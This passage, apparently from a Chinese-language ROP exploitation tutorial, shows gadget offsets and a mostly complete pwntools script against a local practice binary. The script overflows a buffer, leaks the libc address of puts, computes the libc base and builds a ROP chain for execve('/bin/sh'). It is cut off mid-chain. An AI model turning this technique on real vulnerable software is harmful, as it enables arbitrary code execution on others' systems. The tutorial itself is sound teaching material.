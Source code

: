 这里需要用到的寄存器有 RAX、RDI、RSI、RDX：

```
p += pack('<Q', 0x000000000003a738) # pop rax ; ret
p += pack('<Q', 0x0000000000021112) # pop rdi ; ret
p += pack('<Q', 0x00000000000202f8) # pop rsi ; ret
p += pack('<Q', 0x0000000000001b92) # pop rdx ; ret
p += pack('<Q', 0x00000000000026bf) # syscall
```

泄露库函数地址后，接下来要做的就是控制程序重新执行 main 函数，从而读入并执行新的 ROP 链来实现任意代码执行。完整利用脚本如下：

```python
#!/usr/bin/python3
from pwn import *
p = process('./rop')
elf = ELF('./rop')

# 导入 libc 库，ubuntu 16.04 中路径为：/lib/x86_64-linux-gnu/libc-2.23.so
libc = elf.libc


# 第一步，找到 puts 函数在 libc 库中的偏移地址
pop_rdi = 0x4005d3
puts_got = 0x601018
puts = 0x400430
main = 0x400537
rop1 = b"a" * 18        # char[10] + 寄存器[8] = 18
rop1 += p64(pop_rdi)    # rdi 寄存器地址
rop1 += p64(puts_got)   # .got.plt 表中存放的 _puts 的真实地址
rop1 += p64(puts)   # .plt 表中 _puts 项的地址
rop1 += p64(main)   # main 函数地址
p.sendline(rop1)
p.recvuntil('\n')
addr = u64(p.recv(6).ljust(8,b'\x00'))  # u64 将字符传唤为数字


# 第二步，计算 libc 基地址
libc_case = addr - libc.symbols['puts'] # 计算 libc 的基地址
info("libc:0x%x", libc_case)    # 16 进制输出

# 第三步，在 libc 中寻找相应的寄存器，将参数设置为 execve("/bin/sh",0,0)
# 需要用到 rax、rdi、rsi、rdx 寄存器
pop_rax = 0x000000000003a738 + libc_case # pop rax ; ret
pop_rdi = 0x0000000000021112 + libc_case # pop rdi ; ret
pop_rsi = 0x00000000000202f8 + libc_case # pop rsi ; ret
pop_rdx = 0x0000000000001b92 + libc_case # pop rdx ; ret
syscall = 0x00000000000026bf + libc_case # syscall

# 第四步，搜索 libc 中 /bin/sh 字符串的地址
binsh =  next(libc.search(b"/bin/sh"),) + libc_case

# 第五步，设置参数为 execve("/bin/sh",0,0)
# 在 x64 位操作系统上，参数设置方式为：
# 1. 在执行 syscall 前将 rax 设为 59
# 2. rdi 设为字符串 /bin/sh 的地址（/bin/sh 可以在 libc 中找到，不需要另外构造）
# 3. rsi 和 rdx 设为 0
rop2 = b"a" * 18
rop2 += p64(pop_rax)
rop2 += p64(59)
rop2 += p64(pop_rdi)
rop2 += p64(binsh)
rop2 += p64(pop_rsi)
rop2 += p64(0)
rop2 += p64(pop_rdx)
```